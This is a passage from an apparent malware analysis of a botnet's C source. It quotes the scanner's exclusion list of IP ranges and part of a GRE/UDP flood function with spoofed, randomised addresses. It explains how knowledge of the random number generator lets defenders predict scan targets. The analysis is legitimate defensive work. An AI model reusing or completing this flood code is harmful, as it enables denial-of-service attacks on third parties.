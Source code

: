 ```c
          (o1 == 192 && o2 == 168) ||               // 192.168.0.0/16   - Internal network
          (o1 == 172 && o2 >= 16 && o2 < 32) ||     // 172.16.0.0/14    - Internal network
          (o1 == 100 && o2 >= 64 && o2 < 127) ||    // 100.64.0.0/10    - IANA NAT reserved
          (o1 == 169 && o2 > 254) ||                // 169.254.0.0/16   - IANA NAT reserved
          (o1 == 198 && o2 >= 18 && o2 < 20) ||     // 198.18.0.0/15    - IANA Special use
          (o1 >= 224) ||                            // 224.*.*.*+       - Multicast
          (o1 == 6 || o1 == 7 || o1 == 11 || o1 == 21 || o1 == 22 || o1 == 26 || o1 == 28 || o1 == 29 || o1 == 30 || o1 == 33 || o1 == 55 || o1 == 214 || o1 == 215) // Department of Defense
    );

    return INET_ADDR(o1,o2,o3,o4);
}
```

If a sufficient number of victim nodes scanned by one scanner node are known, a defender knows which IP addresses will be scanned next.

The knowledge of the random number sequence could also be used to defend against attacks since the BOTS are using random numbers for populating the attack packets. An example attack function is `attack_gre_ip()`. It generates the individual destination IP address, the source IP address, source and detination UDP ports, and the payload of the UDP packet using `rand_next()`:

```c
void attack_gre_ip(uint8_t targs_len, struct attack_target *targs, uint8_t opts_len, struct attack_option *opts)
{
    /* setting up the attack ... */

    while (TRUE)
    {
        for (i = 0; i < targs_len; i++)
        {
            char *pkt = pkts[i];
            struct iphdr *iph = (struct iphdr *)pkt;
            struct grehdr *greh = (struct grehdr *)(iph + 1);
            struct iphdr *greiph = (struct iphdr *)(greh + 1);
            struct udphdr *udph = (struct udphdr *)(greiph + 1);
            char *data = (char *)(udph + 1);

            // For prefix attacks
            if (targs[i].netmask < 32)
                iph->daddr = htonl(ntohl(targs[i].addr) + (((uint32_t)rand_next()) >> targs[i].netmask));

            if (source_ip == 0xffffffff)
                iph->saddr = rand_next();

            if (ip_ident == 0xffff)
            {
                iph->id = rand_next() & 0xffff;
                greiph->id = ~(iph->id - 1000);
            }
            if (sport == 0xffff)
                udph->source = rand_next() & 0xffff;
            if (dport == 0xffff)
                udph->dest = rand_next() & 0xffff;

            if (!gcip)
                greiph->daddr = rand_next();
            else
                greiph->daddr = iph->daddr;

            if (data_rand)
                rand_str(data, data_len);
```